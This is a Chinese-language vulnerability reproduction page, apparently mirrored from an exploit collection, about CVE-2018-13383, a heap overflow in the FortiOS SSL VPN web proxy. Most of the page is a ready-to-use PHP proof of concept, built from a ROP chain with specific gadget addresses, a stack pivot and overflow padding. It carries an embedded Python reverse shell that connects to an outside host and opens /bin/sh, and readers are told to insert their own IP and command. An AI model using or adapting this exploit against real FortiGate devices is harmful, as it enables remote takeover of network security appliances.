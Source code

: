 # （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13383.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13383.html)

## 一、漏洞简介

Fortinet FortiOS 是美国飞塔（Fortinet）公司的一套专用于 FortiGate 网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web 内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.2.0 之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

## 三、复现过程

这是 WebVPN 功能的漏洞。在解析 HTML 中的 JavaScript 时，它会尝试使用以下代码将内容复制到缓冲区中：

```
memcpy(buffer, js_buf, js_buf_len); 
```

缓冲区大小固定为`0x2000`，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出 Null 字节，这在我们的利用中很有用。 为触发此溢出，我们需要将 exploit 放到 HTTP 服务器上，然后以普通用户权限登录 SSL VPN 代理访问我们的 exploit 为普通用户。

> 这里我们用 PHP 编写的 PoC 放在 HTTP 服务器上:
> 
> //请自行修改里面的 ip 以及所需要的执行的命令

```
<?php
function p64($address) {
    $low = $address & 0xffffffff;
    $high = $address >> 32 & 0xffffffff;
    return pack("II", $low, $high);
}
$junk = 0x4141414141414141;
$nop_func = 0x32FC078;

$gadget  = p64($junk);
$gadget .= p64($nop_func - 0x60);
$gadget .= p64($junk);
$gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;
$gadget .= p64($junk);
$gadget .= p64($junk);
$gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;
$gadget .= p64(0x1bed1f6); // pop rax ; ret ;
$gadget .= p64(0x58);
$gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;
$gadget .= p64(0x1366639); // call system ;
$gadget .= "python -c 'import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);' xx.xxx.xx.xx /bin/sh;";

$p  = str_repeat('AAAAAAAA', 1024+512-4); // offset
$p .= $gadget;
$p .= str_repeat('A', 0x1000 - strlen($gadget));
$p .= $gadget;
?>
<a href="javascript:void(0);<?=$p;?>">xxx</a> 
```

这个 PoC 可以分为三个部分。

*   1.虚假的 SSL structure

`SSL structure`和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将`method`设置为一个包含空函数指针的位置。此时的参数是 `SSL structure`本身`s`。但是，`method`前面只有 8 个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向 shell 来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到 ROP 小片段。我们发现一个有用的堆栈枢轴:

```
push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ; 
```

因此，我们将`handshake_func`设置为这个小片段，将`rsp`移动到`SSL structure`中，进行下一步的 ROP 攻击。

*   2.ROP 链

这里的 ROP 链很简单。我们稍微向前移动`rdi`，以便有足够的空间执行反向 shell 命令。

*   3.溢出的字符串

最后，我们连接溢出填充并加以利用。一旦我们溢出了 SSL structure，就会得到一个 shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要 1~2 分钟，就可以获得一个反向 shell。

